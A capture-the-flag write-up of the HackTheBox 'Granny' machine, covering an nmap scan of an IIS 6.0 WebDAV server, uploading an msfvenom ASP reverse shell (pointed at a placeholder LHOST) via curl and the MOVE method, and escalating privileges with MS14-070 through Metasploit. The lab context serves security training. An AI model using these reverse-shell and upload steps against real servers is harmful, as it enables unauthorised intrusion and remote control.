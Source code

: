 ```yaml
---
layout: post
title:  "HackTheBox: Granny - Writeup"
date:   2019-04-20 12:00:02 +0530
author: Kyle Simmons
categories: [htb]
---
```

HackTheBox: Granny was another easy machine to get into, Privilege escalation was problematic but it was a
good lesson on how to deal with broken exploits.

<h2>1.1 Enumeration</h2>
<br>
I first started by doing a port scan of Granny.
{% highlight shell %}
nmap -sC -sV -A -oA granny-scan 10.10.10.15
Nmap scan report for 10.10.10.15
Host is up (0.035s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods:
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Error
| http-webdav-scan:
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   Server Type: Microsoft-IIS/6.0
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   WebDAV type: Unkown
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2003|2008|XP|2000 (92%)
OS CPE: cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_server_2008::sp2 cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_2000::sp4
Aggressive OS guesses: Microsoft Windows Server 2003 SP1 or SP2 (92%), Microsoft Windows Server 2008 Enterprise SP2 (92%), Microsoft Windows Server 2003 SP2 (91%), Microsoft Windows 2003 SP2 (91%), Microsoft Windows XP SP3 (90%), Microsoft Windows XP (87%), Microsoft Windows Server 2003 SP1 - SP2 (86%), Microsoft Windows XP SP2 or Windows Server 2003 (86%), Microsoft Windows 2000 SP4 (85%), Microsoft Windows XP SP2 or Windows Server 2003 SP2 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   41.97 ms 10.10.14.1
2   42.07 ms 10.10.10.15
{% endhighlight %}
<br>
Visting the website and running dirb revealed that the website is full of inital configuration
files as it appears that the website has not been setup yet or misconfigured. However, the port scan
revealed that http webdav methods can used. A good way to test for this is with `davtest`.
<br>

<img src="/assets/images/htb/granny/davtest.png">
<br>
After looking around online i found a good sources online to use curl for method requests:
<br>
[Webdav curl examples link]

<h2>2.1 Exploitation</h2>
<br>
Firstly a shell needs to be generated to upload to the web server. Since the server is running
asp as found in enumeration, an asp shell can be generated through msfvenom.

`msfvenom -p windows/shell_reverse_tcp LHOST=IP_ADDRESS LPORT=PORT -f asp > rshell.asp`

Curl is used for sending the reverse shell as a .txt file. Then the MOVE method is used
to change the file extension to `.asp`.

<img src="/assets/images/htb/granny/curl-shell.png">

The shell is initialised with `'curl http://10.10.10.15/rshell.asp'` and a shell appears in the
netcat listener.

<img src="/assets/images/htb/granny/reverse-shell-done.png">

<h2>3.1 Post exploitation</h2>
<br>
A `whoami /all` reveals that i do not have a privileged shell, this will require further post enumeration to
get a privileged shell.

<img src="/assets/images/htb/granny/all-users.png">

A `sysinfo` shows that the machine is an old version of windows running `Windows server 2003 SP2`.

<img src="/assets/images/htb/granny/sysinfo.png">

After some research, several local exploits have been found at:

[Local windows exploits link]

The MS14-070 exploit appeared to be what i was looking for. The exploit was put onto the target
machine the same way as the reverse shell. When executing the exploit there was a problem with the
exploit not working properly. The process was running but it was stuck.

<img src="/assets/images/htb/granny/escalted-priv.png">

To solve this, metasploit is used to convert the shell to meterpreter and migrate the process.

Convert shell to meterpreter:
<img src="/assets/images/htb/granny/migrate-to-meterpreter.png">

Execute the exploit in metasploit:
<img src="/assets/images/htb/granny/priv-esc-exploited.png">

`session 3` has been opened and when opening it is a privileged meterpreter shell. The root.txt is found in the
desktop of the Administrator account, and success!

<img src="/assets/images/htb/granny/found-root.png">









[Local windows exploits link]: https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-070
[Webdav curl examples link]: https://code.blogs.iiidefix.net/posts/webdav-with-curl/
